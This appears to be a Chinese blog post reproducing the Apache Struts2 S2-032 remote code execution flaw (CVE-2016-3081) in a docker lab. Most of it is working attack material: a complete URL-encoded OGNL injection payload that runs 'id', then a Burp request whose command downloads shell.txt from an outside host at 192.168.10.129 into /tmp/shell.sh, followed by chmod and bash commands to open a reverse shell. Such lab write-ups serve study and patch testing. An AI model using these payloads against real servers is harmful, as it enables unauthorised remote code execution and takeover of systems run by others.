






# S2-032 远程代码执行漏洞（CVE-2016-3081） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16283239.html`](https://www.cnblogs.com/NoCirc1e/p/16283239.html)

影响版本: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

漏洞详情:

*   [`cwiki.apache.org/confluence/display/WW/S2-032`](https://cwiki.apache.org/confluence/display/WW/S2-032)
*   [`www.cnblogs.com/mrchang/p/6501428.html`](https://www.cnblogs.com/mrchang/p/6501428.html)

## 漏洞环境

执行如下命令启动 struts2 2.3.28：

```
docker-compose up -d
```



环境启动后，访问`http://your-ip:8080`即可看到默认页面。



## 漏洞复现

Struts2 在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用`method:<name>`的方式来调用名字是`<name>`的方法，而这个方法名将会进行 OGNL 表达式计算，导致远程命令执行漏洞。

直接请求如下 URL，即可执行`id`命令：

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```


## 反弹 Shell



通过 Burp 发送的 payload 要经过 URL 编码

```
GET /index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd[0]).getInputStream()).useDelimiter(%23parameters.pp[0]),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp[0],%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=\\A&ppp=%20&encoding=UTF-8&cmd=curl%20http%3A%2F%2F192.168.10.129%3A8888%2Fshell.txt%20-o%20%2Ftmp%2Fshell.sh HTTP/1.1
Host: 192.168.10.128:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=9zs07axi06w1lnowjvmaa52o
Upgrade-Insecure-Requests: 1 
```



```
chmod 777 /tmp/shell.sh
#URL 编码
chmod%20777%20%2Ftmp%2Fshell.sh
```



```
/bin/bash /tmp/shell.sh
#URL 编码
/bin/bash /tmp/shell.sh
```

成功反弹 Shell

